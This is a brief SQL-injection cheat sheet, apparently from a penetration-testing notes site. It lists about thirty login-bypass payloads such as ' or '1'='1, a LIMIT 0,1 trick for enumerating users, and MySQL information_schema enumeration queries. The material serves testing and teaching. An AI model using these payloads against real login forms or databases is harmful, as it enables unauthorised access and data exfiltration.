 # SQL Injection

This exploit takes advantage of the interaction of a server application with a backend database.  If inputs are not correctly sanitised, then an attacker can modify a query sent to a database and use it to perform data exfiltration or break application logic.

![](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)

## Login Bypasses

For login forms, if they're vulnerable to SQL Injection, the options can range from data exfiltration, to simply bypassing the login forms entirely. Note that the comment type for SQL databases can vary, so it's worth trying both `--` and `#`.  A number of the below are worth trying:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

**Source**: [https://xapax.gitbooks.io/security/content/sql-injections.html](https://xapax.gitbooks.io/security/content/sql-injections.html)

If the backend code is only expecting a single result from the query, a number of the above will fail.  If this is the case then using `LIMIT 0,1` at the end of the expression will reduce the result returned to a single element.  You can then vary the first parameter to enumerate different users.

## Database Enumeration

### MYSQL

```sql
select column_name from information_schema.columns
select table_name from information_schema.tables
```

## Further Reading

[OWASP - SQL Injection](https://www.owasp.org/index.php/SQL_Injection)  
[HackTheBox - Charon](https://www.gitbook.com/book/reboare/booj-security/edit#)



